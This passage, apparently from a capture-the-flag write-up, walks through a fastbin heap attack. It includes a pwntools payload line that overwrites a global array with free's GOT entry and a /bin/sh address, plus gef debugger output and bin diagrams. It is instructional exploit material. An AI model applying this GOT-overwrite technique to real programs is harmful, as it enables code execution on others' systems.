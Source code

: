 
```makefile
fastbinsY[] alloc(0x68)

   0x20      0x30               0x70
+--------++--------+         +--------+
|        ||        |   ...   |        |   ...
|        ||        |         |        |
+--------++--------+         +--------+
                                  |
                                  |
                                  |
                             +--------+
                             |        |
                             |0x6052ed|
                             +--------+
```

Off to the last part, on the next allocation we'll get back `0x6052ed` and we'll overflow the 1st and 2nd entry of the global array to point to `free`'s GOT entry and `sh`'s address respectively.

```python
alloc(0x68,"H"*0x13 + p64(free_got) + p64(binsh))
```

```makefile
gef➤  printfastbin
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
```

```makefile
gef➤  x/5gx 0x605310
0x605310:   0x0000000000605060  0x00007ffff72f8d17
0x605320:   0x0000000000617c0a  0x0000000000617c90
0x605330:   0x0000000000617d00

gef➤  x/gx 0x0000000000605060
0x605060:   0x00007ffff71f04f0

gef➤  x 0x00007ffff71f04f0
0x7ffff71f04f0 <__GI___libc_free>:  0x8348535554415541

gef➤  x/s 0x00007ffff72f8d17
0x7ffff72f8d17: "/bin/sh"
```


```makefile
fastbinsY[] alloc(0x68)

   0x20      0x30               0x70
+--------++--------+         +--------+
|        ||        |   ...   |        |   ...
|        ||        |         |        |
+--------++--------+         +--------+

```
